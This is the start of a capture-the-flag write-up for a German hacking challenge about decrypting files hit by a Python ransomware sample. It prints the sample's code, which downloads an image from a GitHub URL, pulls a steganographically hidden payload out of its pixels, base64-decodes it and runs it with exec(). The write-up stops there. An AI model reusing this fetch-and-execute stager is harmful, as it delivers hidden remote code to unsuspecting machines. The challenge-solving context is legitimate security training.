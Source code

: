 #DBH #deutschlandsbesterhacker #challanges #cybersecurity 

---
> hun7er Cybersecurity | Sep 18th, 2023
---

## Instructions

```
Die Developer Akademie wurde am 17.06.2023 während eines Kundeneventsvon der mittlerweile
weltbekannten Ransomware Csar befallen, die nach dem römischen Kaiser Julius Cäsar benannt wurde.
Zum Glück wurde die in Python entwickelte Ransomware ransomware.py nicht verschlüsselt,
sodass sich die Techniker der Developer Akademie an der Programmierung eines geeigneten Decryptors versuchen können.
Kannst du ihnen bei der Entwicklung des Decryptors helfen?

ransomware.py 8b3b5dcb2f4e4ab83600f8d27ad907e3cdc53246c589dfa197c587f80e73fc9f
flag.png.encrypted 5dbab4261f97694fb6d3a018a7ef4383712b614484965cfd58f247fe33b5433e
```

* Download this `ransomware.py`, `flag.png.encrypted` files
---
# Starting investigating

Open the `ransomware.py` in your prefers editor
```python
import cv2, base64, requests
import numpy as np

def s2t(s):
    t = ""
    for i in range(0, len(s), 8):
        bits = s[i:i+8]
        char = chr(int(bits, 2))
        t += char
    return t

def dwnld(url):
    response = requests.get(url)
    if response.status_code == 200:
        image_bytes = response.content
        image_array = np.asarray(bytearray(image_bytes), dtype=np.uint8)
        img = cv2.imdecode(image_array, cv2.IMREAD_COLOR)
        return img

def extract(img):
    s = ""
    for x in range(img.shape[0]):
        for y in range(img.shape[1]):
            b, g, r = img[x, y]
            s += bin(b)[-1]
            s += bin(g)[-1]
            s += bin(r)[-1]
    result = s2t(s)
    return result[:result.index('#')]

if __name__ == "__main__":
    exec(base64.b64decode(
        extract(
            dwnld("https://raw.githubusercontent.com/florian-dalwigk/duck/main/mandarin.png"))))
```
---